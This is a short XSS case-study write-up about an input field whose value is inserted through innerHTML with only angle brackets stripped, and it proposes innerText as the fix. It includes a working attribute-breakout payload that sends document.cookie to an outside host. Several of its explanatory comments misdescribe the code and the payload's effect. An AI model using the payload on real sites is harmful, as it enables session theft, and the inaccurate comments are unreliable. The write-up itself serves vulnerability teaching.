 # XSS - Case Study #2 (Feb 16-22, 2025)

## Overview
Tweet URL: https://x.com/chux13786509/status/1892899459392045494

## Code Analysis
In this writeup, I'll analyze an XSS vulnerability discovered in the input field.

```javascript
userInput = userInput.replace(/[<>]/g, '');
// This replaces '<', '>', '[', and ']' with an empty string.
document.getElementById('result').innerHTML = `You searched for: <input type="text" value="${userInput}">`;
// This sets the innerHTML of the element with id 'result' to the value of the userInput.
// Here is the vulnerability. The value of the input field is set to the userInput without any sanitization.
```

## Impact
An attacker can inject malicious code into the input field and execute it in the context of the website.
An example of a payload that could be injected is: `" autofocus onfocus="fetch('https://vuln.me/?cookie=' + document.cookie)`
This payload would create an input field with the value `"` and autofocus on it, triggering an alert when the input field is focused.

## Solving the Issue
For this case, the issue can be solved by using the `innerText` property instead of `innerHTML` to set the value of the input field.
```javascript
document.getElementById('result').innerText = `You searched for: ${userInput}`;
```

## Conclusion
This case study demonstrates the importance of properly sanitizing user input to prevent XSS attacks.
